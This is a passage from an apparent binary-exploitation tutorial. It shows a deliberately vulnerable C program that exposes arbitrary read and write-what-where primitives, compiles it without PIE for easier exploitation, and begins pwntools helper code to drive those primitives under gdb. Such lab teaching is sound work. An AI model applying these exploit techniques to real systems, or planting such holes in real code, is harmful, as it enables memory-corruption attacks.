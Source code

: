 ```C
        choice = get_choice();
        switch(choice){
            case 1:
                printf("Where?\n");
                address = get_choice();
                read_where(address);
                break;
            case 2:
                printf("Where?\n");
                address = get_choice();
                printf("What?\n");
                what = get_choice();
                write_what_where(address,what);
                break;
            case 3:
                fflush_stderr();
                break;
            default:
                break;
        }
    }
}
```

We'll compile without PIE so we dont have to do calculations all the time for PIE base:

```bash
gcc -no-pie main.c -o main
```

We'll use [pwntools](https://github.com/Gallopsled/pwntools) to create the exploit itself.

## Boilerplate

Now this has been setup. Let's create some boilerplate code for reading and writing values, using pwntools:



```py
from pwn import *

gdbscript = """
b *main
c
"""

io = gdb.debug("./main",gdbscript=gdbscript)

def read(address):
    io.recvuntil(b'?')
    io.sendline(b'1')
    io.recvuntil(b'Where?')
    io.sendline(f"{address}".encode())
    io.recvuntil(b'Your leak: ')
    leak = io.recvline()[:-1]
    return int(leak,16)

def write(address, what):
    io.recvuntil(b'?')
    io.sendline(b'2')
    io.recvuntil(b'Where?')
    io.sendline(f"{address}".encode())
    io.recvuntil(b'What?')
    io.sendline(f"{what}".encode())

```